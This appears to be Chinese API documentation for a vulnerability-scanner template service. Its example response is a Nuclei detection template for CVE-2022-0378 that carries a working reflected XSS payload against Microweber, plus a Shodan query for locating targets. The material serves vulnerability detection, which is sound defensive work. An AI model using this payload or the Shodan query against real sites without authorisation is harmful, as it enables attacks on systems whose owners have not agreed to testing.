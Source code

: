 > 返回示例：此接口成功后无返回数据，只有出错后才有返回，判断是否返回错误即可

```
{
  "message": "could not parse template: no template name field provided",
  "error": "code=400, message=could not parse template: no template name field provided"
}
```

### 5. 获取模板原始内容

- 请求方式：`GET`
- 接口地址：`/templates/raw`

| 参数名  |   类型   | 说明      | 示例                           |
|:----:|:------:|:--------|:-----------------------------|
| path | string | 模板自定义路径 | test/CVE-2022-0378test2.yaml |


> 返回示例：

```
id: CVE-2022-0378test2

info:
  name: Microweber Reflected Cross-Site Scripting
  author: pikpikcu
  severity: medium
  description: Microweber contains a reflected cross-site scripting in Packagist microweber/microweber prior to 1.2.11.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2022-0378
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N
    cvss-score: 5.4
    cve-id: CVE-2022-0378
    cwe-id: CWE-79
  metadata:
    shodan-query: http.favicon.hash:780351152
  tags: cve,cve2022,microweber,xss

requests:
  - method: GET
    path:
      - '{{BaseURL}}/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(document.domain)+xx=%22test&from_url=x'

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - 'mwui_init'
          - 'onmousemove="alert(document.domain)'
        condition: and

# Enhanced by mp on 2022/02/28
```
